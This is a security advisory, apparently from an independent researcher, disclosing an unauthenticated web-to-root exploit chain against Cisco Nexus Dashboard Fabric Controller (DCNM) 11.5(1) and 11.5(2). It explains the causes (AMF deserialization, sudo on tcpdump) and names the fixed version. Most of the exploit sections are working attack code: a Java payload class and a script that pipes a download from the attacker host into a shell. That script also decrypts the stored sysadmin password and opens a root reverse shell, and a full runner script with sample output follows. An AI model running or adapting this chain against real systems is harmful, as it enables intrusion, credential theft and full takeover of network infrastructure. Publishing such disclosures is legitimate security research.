

# Unauthenticated Remote Code Execution in Cisco Nexus Dashboard Fabric Controller (formerly DCNM)
### By Pedro Ribeiro (pedrib@gmail.com | [@pedrib1337](https://twitter.com/pedrib1337)) from [Agile Information Security](https://agileinfosec.co.uk)

#### Disclosed: 2022-03-30 / Last Updated: 2022-03-30

* [Summary](#summary)
* [Vulnerability Details](#vulnerability-details)
    * [#1: Unsafe Flex AMF Java Object Deserialization](#1-unsafe-flex-amf-java-object-deserialization)
    * [#2: Insecure sudo Permissions](#2-insecure-sudo-permissions)
* [Exploit Chain](#exploit-chain)
    * [Escalating Privileges to root](#escalating-privileges-to-root)
    * [Full Exploit](#full-exploit)
    * [Limitations](#limitations) 
* [Fixes / Mitigations](#fixes--mitigations)

## Summary
[Cisco Nexus Dashboard Fabric Controller](https://www.cisco.com/c/en/us/products/cloud-systems-management/prime-data-center-network-manager/index.html) is a "*network management platform for all NX-OS enabled deployments. It spans new fabric architectures, storage network deployments, and IP Fabric for Media*". I'm not going to pretend I understand what that means, but I can tell you this is a big dawg enterprise network management system.

The product was previously known as Cisco Data Center Network Manager (DCNM), and infamous due to having multiple remote code execution vulnerabilities in it, found by [myself in 2019](https://github.com/pedrib/PoC/blob/master/advisories/Cisco/cisco-dcnm-rce.txt) and by [Steven Seeley in 2020](https://srcincite.io/blog/2020/01/14/busting-ciscos-beans-hardcoding-your-way-to-hell.html).

We're back at it again, and this time presenting a full unauthenticated web-to-`root` exploit chain, which combines:

* Unsafe Flex AMF (Action Message Format) Java Object Deserialization ([CVE-2017-5641](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5641) / [ZDI-22-506](https://www.zerodayinitiative.com/advisories/ZDI-22-506/))
* Incorrect `sudo` Permissions ([ZDI-22-507](https://www.zerodayinitiative.com/advisories/ZDI-22-507/))

The vulnerabilities and exploit provided in this advisory have been tested with DCNM versions 11.5(1) and 11.5(2), and fixed by Cisco in [version 11.5(4)](https://www.zerodayinitiative.com/advisories/ZDI-22-506/).

After taking [over six months](https://www.zerodayinitiative.com/advisories/ZDI-22-506/) to fix these vulnerabilities, Cisco was too lazy to issue CVE identifiers for them (they used BlazeDS's [CVE-2017-5641](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5641) for both), so only ZDI identifiers are available.

An [exploit package](https://github.com/pedrib/PoC/tree/master/exploits/DCNMPwn) has been released to the public at the same time as [this advisory](https://github.com/pedrib/PoC/tree/master/advisories/Cisco/DCNMPwn.md) (pwnage shown in the [GIF below](https://github.com/pedrib/PoC/blob/master/advisories/Cisco/DCNMPwn.gif)). As always, a massive thank you to the [Zero Day Initiative](https://www.zerodayinitiative.com/) for helping me disclose these vulnerabilities to Cisco.



## Vulnerability Details
### #1: Unsafe Flex AMF Java Object Deserialization
* [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
* [CVE-2017-5641](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5641)
* Risk Classification: Critical
* Attack Vector: Remote
* Constraints: None
* Affected versions: tested on Cisco DCNM virtual appliance 11.5(1) and 11.5(2), all versions below 11.5(4) are vulnerable

By sending an HTTP POST request with random data to */fm/messagebroker/amfsecure*, the server will respond with a 200 OK and binary data that includes:
```
 ...Unsupported AMF version XXXXX...
```

Which indicates that the server has a Apache / Adobe Flex AMF (BlazeDS) endpoint at that location. The BlazeDS library version running on the server is 4.0.0.14931 (**12 years old** at the time of writing), which means it is [vulnerable to CVE-2017-5641](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5641), the description of which is copied below:

> "Previous versions of Apache Flex BlazeDS (4.7.2 and earlier) did not restrict which types were allowed for AMF(X) object deserialization by default. During the deserialization process code is executed that for several known types has undesired side-effects. Other, unknown types may also exhibit such behaviors. One vector in the Java standard library exists that allows an attacker to trigger possibly further exploitable Java deserialization of untrusted data. Other known vectors in third party libraries can be used to trigger remote code execution."

I have previously exploited this vulnerability in [DrayTek VigorACS](https://raw.githubusercontent.com/pedrib/PoC/master/advisories/draytek-vigor-acs.txt), [Cisco ISE](https://github.com/pedrib/PoC/blob/master/exploits/ISEpwn/ISEpwn.rb) and [TIBCO Data Virtualization Manager](https://github.com/pedrib/PoC/blob/master/advisories/TIBCO/tibco_tdv_rce.md).

Given the complexity of AMF and the Java deserialization chain involved, it is out of scope of this advisory to go into details. The only takeaway necessary is that under the right conditions, it is possible to achieve remote code execution through Java object deserialization.

Readers interested in digging deeper should check out the write-up [AMF - Another Malicious Format](http://codewhitesec.blogspot.ru/2017/04/amf.html) by Markus Wulftange as well as [Java Unmarshaller Security - Turning your data into code execution](https://github.com/mbechler/marshalsec) by Moritz Bechler for further details on the inner workings of this vulnerability.

This AMF exploit has a unique twist compared to the others I have previously exploited, which is described in the [Exploit Chain](#exploit-chain) section below.

### #2: Insecure `sudo` Permissions
* [CWE-269: Improper Privilege Management](https://cwe.mitre.org/data/definitions/269.html)
* Risk Classification: High
* Attack Vector: Local
* Constraints: `sysadmin` account access required
* Affected versions: tested on Cisco DCNM virtual appliance 11.5(1) and 11.5(2), all versions below 11.5(4) are vulnerable

DCNM contains a special `sysadmin` user that is used for system administration without having to login as `root`.
The account password is set at installation time by the administrator. If we login and run `sudo -l` we can see the following:

```
[sysadmin@dcnm ~]$ sudo -l
Matching Defaults entries for sysadmin on dcnm:
User sysadmin may run the following commands on dcnm:
    (root) NOPASSWD: /sbin/appmgr, /sbin/shutdown, /sbin/reboot
    (ALL) /sbin/tcpdump
```

Apparently we can run `tcpdump` as the `sysadmin` user! What can we do with this? Well let's consult the fantastic [GTFObins](https://gtfobins.github.io/gtfobins/tcpdump/) resource:

> If the [tcpdump] binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
    COMMAND='id'
    TF=$(mktemp)
    echo "$COMMAND" > $TF
    chmod +x $TF
    sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```
> Snippet #1: `tcpdump` privilege escalation technique

... and that's pretty much it! Using this technique, if can login as `sysadmin` we can execute commands as `root`! This will be very useful (and abused) in the next section.

## Exploit Chain
As I have previously shown in my [DrayTek VigorACS](https://raw.githubusercontent.com/pedrib/PoC/master/advisories/draytek-vigor-acs.txt) and [Cisco ISE](https://github.com/pedrib/PoC/blob/master/exploits/ISEpwn/ISEpwn.rb) exploits, the most common technique when exploiting AMF deserialization vulnerabilities uses the [*ysoserial* JRMP payload](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/exploit/JRMPListener.java) to return a malicious object to the caller. 

However, this technique does NOT work on the Cisco DCNM virtual appliances versions 11.5(1) and 11.5(2), as they are using a recent Java version that uses [JEP-290](https://openjdk.java.net/jeps/290) to filter certain known bad classes and protect against malicious [remote class loading](https://dzone.com/articles/a-first-look-into-javas-new-serialization-filterin) (RMI). This blocks the specific attack vector used for this JRMP technique, which is an abuse of the [Distributed Garbage Collector (DGC)](https://docs.oracle.com/javase/8/docs/platform/rmi/spec/rmi-arch4.html).

However, I was able to bypass the JEP-290 protections by using a [C3P0](https://www.mchange.com/projects/c3p0/) `WrapperConnectionPoolDataSource` gadget, as discovered by [Moritz Bechler](https://github.com/mbechler/marshalsec) in his [MarshalSec whitepaper](https://raw.githubusercontent.com/mbechler/marshalsec/master/marshalsec.pdf) (see section 4.9).

The gadget is described in detail in the whitepaper, but in summary it allows an attacker to instantiate a remote class specified in the serialized object, provided that the C3P0 library is in the classpath. Since the call chain goes through the AMF library, which does not enforce JEP-290, we can still perform remote class loading in recent Java versions.

In order to achieve unauthenticated remote code execution, the exploit flow is as follows:

1. Start a web server (for example on port 4445) serving a compiled `Exploit` class (source code below).
2. Build the gadget chain specified above, and send it inside an AMF message body to `/fm/messagebroker/amfsecure`
3. The gadget chain will activate and the `COMMAND` in the `Exploit` class will run as the `fmserver` user.

The `Exploit` class source code is below:

```java
public class Exploit {
	public Exploit() throws Exception {
		Runtime rt = Runtime.getRuntime();
		String[] commands = {"/bin/sh", "-c", "COMMAND"};
		Process pc = rt.exec(commands);
		pc.waitFor();
	}
}
```
> Snippet #2: `Exploit` class source code

### Escalating Privileges to `root`

As seen in [Vulnerability #2](#2-insecure-sudo-permissions), we can easily escalate our privileges to `root` from the `sysadmin` user. However, the Java object deserialization exploit results in code execution as the `fmserver` user, not `sysadmin`.

As said above, the `sysadmin` password is set at installation time by the administrator. The password it is stored in an encrypted format in the `/usr/local/cisco/dcm/fm/conf/server.properties` file (readable by `fmserver`):

```
cat conf/server.properties | grep sftp.
server.sftp.rootdir=/home/sysadmin
server.sftp.username=sysadmin
server.sftp.password=#oW2aIaDe4ZXpArPDJr8fg==
server.sftp.enabled=true
```

The password is encrypted with the Blowfish algorithm, but helpfully we can also find the decryption key in the `/usr/local/cisco/dcm/fm/conf/serverstore.properties` file, which is also readable by the `fmserver` user:

```
cat /usr/local/cisco/dcm/fm/conf/serverstore.properties  | grep dcnm.store
dcnm.store=MASK-1S8cCf8a0QUIlKo1TX2ynv;6QFYsrGt;2500
```
  
Decrypting the `server.sftp.password` with the `dcnm.store` key will get us the `sysadmin` password, allowing us to escalate privileges from `fmserver` to `sysadmin`!
From then on, we just need to use the [GTFObins](https://gtfobins.github.io/gtfobins/tcpdump/) technique described in [Vulnerability #2](#2-insecure-sudo-permissions) to obtain root privileges and completely pwn Cisco DCNM.


### Full Exploit
The provided exploit is a bit complex but works exactly as described above. To automate the privilege escalation to root it executes `curl LHOST:4445/pwned | sh` in the `Exploit` class to fetch the `pwned` shell script and execute it.

The `pwned` file is shown below:

```bash
#!/bin/bash

# obtain sysadmin password and decryption key (NOTE: can these regexes fail?)
PASSWORD=`cat /usr/local/cisco/dcm/fm/conf/server.properties  | grep 'server.sftp.password' | grep -o '#.*'`
KEY=`cat /usr/local/cisco/dcm/fm/conf/serverstore.properties | grep 'dcnm.store' | grep -o 'MASK-.*'`

# download decryption class
curl 'LHOST_XXX:4445/DCNMCrypto.class' -o /tmp/DCNMCrypto.class

# change to /tmp/ before executing the decryption class
cd /tmp
SYSADMINPW=`/usr/local/cisco/dcm/java/jdk11/bin/java DCNMCrypto "$PASSWORD" "$KEY"`
rm /tmp/DCNMCrypto.class

# create Shelly
cat <<EOF > /tmp/shelly.sh
#!/bin/bash
TF=\$(mktemp)
echo "bash -i >& /dev/tcp/LHOST_XXX/4446 0>&1" > \$TF
chmod 777 \$TF
PASS=\`cat /tmp/pass\`
echo "\$PASS" | sudo -S tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z \$TF -Z root
EOF

# dump the password to a file we can read with the script above and
# make both files readable by sysadmin
# NOTE: pass with special chars might create trouble here?
echo $SYSADMINPW > /tmp/pass
chmod 777 /tmp/shelly.sh /tmp/pass

# get reverse root shell
echo "$SYSADMINPW" | su - sysadmin -c '/tmp/shelly.sh'

bash -i >& /dev/tcp/LHOST_XXX/4446 0>&1

# cleanup (this appears to be safe, we still get a shell)
rm /tmp/shelly.sh /tmp/pass
```
> Snippet #3: `pwned` privilege escalation script

This shell script will fetch the pre-compiled `DCNMCrypto` Java class from the same Python web server (on port 4445) that serves the `Exploit` class. 
It will then use that to decrypt the `sysadmin` password and write the shell script `shelly.sh` to the file system.

`shelly.sh` is a script that implements the [GTFObins](https://gtfobins.github.io/gtfobins/tcpdump/) `tcpdump` technique described in [Vulnerability #2](#2-insecure-sudo-permissions). 
The exploit will use `su` to run `shelly.sh` with the `sysadmin` password and return a `bash` reverse shell to the caller (*LHOST*) to port 4446 running as `root`!

The shell script which does it all is shown below:

```bash
#!/bin/bash

echo -e "\e[1;36mRemote Unauthenticated root Exploit for Cisco Data Center Network Manager virtual appliance\e[0m"
echo "  Tested on versions 11.5(1) and 11.5(2)"
echo -e "\e[1;34mby Pedro Ribeiro (pedrib@gmail.com|@pedrib1337) from Agile Information Security\e[0m"
echo ""
echo "For more info refer to the advisory:"
echo "  https://github.com/pedrib/PoC/tree/master/advisories/Cisco/DCNMPwn.md"
echo "  https://www.zerodayinitiative.com/advisories/ZDI-22-506/"
echo ""

JAVA=`javac -version 2>&1 | grep '1.8.0'`
if [[ -z $JAVA ]]; then
  echo "\e[1;31mThis exploit requires the Java 8 compiler (javac) in the path\e[0m"
  exit 1
fi

if [[ ! "$#" -eq 2 ]]; then
  echo -e "\e[1;31mUsage: ./DCNMPwn.sh <RHOST> <LHOST>\e[0m"
  exit 1
fi

RHOST="$1"
LHOST="$2"

#1: Prepare and build the Exploit and DCNMCrypto utilities, as well as the pwned script
sed "s/LHOST_XXX/$LHOST/g" ExploitTemplate.java > Exploit.java
sed "s/LHOST_XXX/$LHOST/g" pwnedTemplate > pwned
javac Exploit.java
javac DCNMCrypto.java

#2: We assume DCNMPwn.jar is already built and in the same dir
echo "Starting classloader HTTP server on port 4445"
python2 -m SimpleHTTPServer 4445 &
PYTHONPID=$!

#3: Pull it all together and receive Shelly!
echo "Firing up request and sending to $RHOST"
sleep 5 && java -jar DCNMPwn.jar "https://$RHOST" "$LHOST" 4445 Exploit 2>/dev/null &

sleep 10 && kill $PYTHONPID >/dev/null &
sleep 10 && rm pwned Exploit.java Exploit.class DCNMCrypto.class &

echo "Starting reverse shell listener on port 4446, Shelly is coming soon!"
echo ""
nc -lvknp 4446
```
> Snippet #4: `DCNMpwn.sh` exploit script

The [exploit package made available with this advisory](https://github.com/pedrib/PoC/tree/master/exploits/DCNMPwn) contains the following files:

* *DCNMPwn.sh*
    * Shell script which runs the exploit (shown in **Snippet #4**)
* *DCNMPwn*
    *  Directory containing the IntelliJ IDEA project that sends the AMF payload to the server, triggering the insecure Java object deserialization
* *ExploitTemplate.java*
    * Exploit class template that will be compiled and served
* *pwnedTemplate*
    * Template for `pwned` shell script (shown in **Snippet #3**) that will be executed in DCNM as the `fmserver` user
* *DNCMCrypto.java*
    * Source code for the `sysadmin` password decryption routine

**NOTE**: Both `DCNMCrypto.java` and the `DCNMPwn` project MUST be compiled with Java 8. 

A typical run of the exploit looks like this:

```
DCNMPwn > ./DCNMPwn.sh 10.9.8.205 10.9.8.1
Remote Unauthenticated root Exploit for Cisco Data Center Network Manager virtual appliance
  Tested on versions 11.5(1) and 11.5(2)
by Pedro Ribeiro (pedrib@gmail.com|@pedrib1337) from Agile Information Security

Starting classloader HTTP server on port 4445
Firing up request and sending to 10.9.8.205
Starting reverse shell listener on port 4446, Shelly is coming soon!

Listening on 0.0.0.0 4446
Serving HTTP on 0.0.0.0 port 4445 ...
10.9.8.205 - - [28/Jul/2021 14:08:36] "GET /Exploit.class HTTP/1.1" 200 -
10.9.8.205 - - [28/Jul/2021 14:08:36] "GET /pwned HTTP/1.1" 200 -
10.9.8.205 - - [28/Jul/2021 14:08:36] "GET /DCNMCrypto.class HTTP/1.1" 200 -
Connection received on 10.9.8.205 48332
bash: no job control in this shell
Finished!
[root@dcnm sysadmin]# id
id
uid=0(root) gid=0(root) groups=0(root)
[root@dcnm sysadmin]#
```

### Limitations
This exploit was only tested in the virtual appliance provided by Cisco. It is likely that Windows installations are also affected by [Vulnerability #1](#1-unsafe-flex-amf-java-object-deserialization), and that could be abused for remote code execution. However that will require a slight modification to the exploit, and a new privilege escalation method (unless the DCNM service runs as `SYSTEM`, which knowing Cisco is a real possibility).

The exploit only works if compiled with Java 8. I have not investigated in detail why this is the case, but it probably has to do with limitations regarding the exploit chain and the *very old* BlazeDS libraries.

## Fixes / Mitigations
Upgrade to the latest Cisco Nexus Dashboard Fabric Controller version ([11.5(4) at the time of writing](https://www.zerodayinitiative.com/advisories/ZDI-22-506/)).

## Disclaimer
Please note that Agile Information Security Limited (Agile InfoSec) relies on information provided by the vendor / product manufacturer when listing fixed versions, products or releases. Agile InfoSec does not verify this information, except when specifically mentioned in the advisory text and requested or contracted by the vendor to do so.
Unconfirmed vendor fixes might be ineffective, incomplete or easy to bypass and it is the vendor's responsibility to ensure all the vulnerabilities found by Agile InfoSec are resolved properly. Agile InfoSec usually provides the information in its advisories free of charge to the vendor, as well as a minimum of six months for the vendor to resolve the vulnerabilities identified in its advisories before they are made public.
Agile InfoSec does not accept any responsibility, financial or otherwise, from any material losses, loss of life or reputational loss as a result of misuse of the information or code contained or mentioned in its advisories. It is the vendor's responsibility to ensure their products' security before, during and after release to market.

## License
All information, code and binary data in this advisory is released to the public under the [GNU General Public License, version 3 (GPLv3)](https://www.gnu.org/licenses/gpl-3.0.en.html). For information, code or binary data obtained from other sources that has a license which is incompatible with GPLv3, the original license prevails.
